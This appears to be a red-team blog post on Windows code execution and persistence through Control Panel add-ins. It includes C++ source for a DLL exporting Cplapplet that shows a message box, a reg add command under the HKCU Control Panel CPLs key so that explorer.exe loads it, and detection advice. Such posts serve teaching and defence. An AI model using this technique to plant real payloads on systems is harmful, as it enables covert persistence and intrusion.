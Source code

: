 ```yaml
---
layout: post
title: "2024-06-18-code execution through control panel add ins"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-execution-through-control-panel-add-ins/
---
```


# Code Execution through Control Panel Add-ins

It's possible to force explorer.exe to load your DLL that is compiled as a Control Panel Item and is registered as a Control Panel Add-in.

```
This technique could also be considered for persistence.
```

## Execution

Let's compile our control panel item (which is a simple DLL with an exported function `Cplapplet`) from the below code:

```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Let's now register our control panel item as an add-in (defenders beware of these registry modifications):

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\labs\cplAddin\cplAddin\x64\Release\cplAddin2.dll" /f
```

![](<../../.gitbook/assets/image (573).png>)

Now, whenever the Control Panel is opened, our DLL will be injected into explorer.exe and our code will execute:

![](../../.gitbook/assets/control-panel-item-addin.gif)

Below shows that our DLL is injected into explorer.exe:

![](<../../.gitbook/assets/image (574).png>)

## Detection

* Look for modifications in the following registry key: `HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs`
* Look for / prevent DLLs from loading from unsecure locations

## References

[https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET\_InvisiMole.pdf)
@spotheplanet
